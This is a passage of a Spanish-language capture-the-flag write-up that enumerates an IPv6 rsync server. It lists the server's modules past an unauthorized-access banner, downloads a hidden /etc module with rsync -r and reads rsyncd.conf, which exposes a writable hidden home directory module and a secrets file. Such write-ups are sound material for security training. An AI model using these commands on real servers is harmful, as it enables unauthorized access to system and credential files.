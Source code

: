 Al intentar conectarme de forma maual recibo un error

```null
rsync -6 rsync://dead:beef::57a:71c:23:77a:8730
ssh: Could not resolve hostname rsync: No address associated with hostname
rsync: connection unexpectedly closed (0 bytes received so far) [Receiver]
rsync error: unexplained error (code 255) at io.c(231) [Receiver=3.2.7]
```

Para solucionarlo, añado la IPv6 al ```/etc/hosts```, apuntando a cualquier nombre, por ejemplo, ```zetta```

```null
rsync -6 rsync://zetta:8730
****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

You must have explicit, authorized permission to access this rsync
server. Unauthorized attempts and actions to access or use this 
system may result in civil and/or criminal penalties. 

All activities performed on this device are logged and monitored.

****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

@ZE::A staff

This rsync server is solely for access to the zetta master server.
The modules you see are either provided for "Backup access" or for
"Cloud sync".


bin            	Backup access to /bin
boot           	Backup access to /boot
lib            	Backup access to /lib
lib64          	Backup access to /lib64
opt            	Backup access to /opt
sbin           	Backup access to /sbin
srv            	Backup access to /srv
usr            	Backup access to /usr
var            	Backup access to /var
```

Es posible que existan otros directorios a los que tenga acceso pero que estén ocultos, como ```/etc```. Descargo todo lo que hay ahí

```null
rsync -6 -r rsync://zetta:8730/etc/ .
```

Abro el archivo de configuración del ```rsync```, ```rsyncd.conf```. Puedo ver una ruta que corresponde al directorio personal de un usuario y un archivo con secretos, al que no tengo capacidad de lectura. En un comentario referencian a un proyecto de Github

```null
# Syncable home directory for .dot file sync for me.
# NOTE: Need to get this into GitHub repository and use git for sync.
[home_roy]
    path = /home/roy
    read only = no
    # Authenticate user for security reasons.
    uid = roy
    gid = roy
    auth users = roy
    secrets file = /etc/rsyncd.secrets
    # Hide home module so that no one tries to access it.
    list = false
```
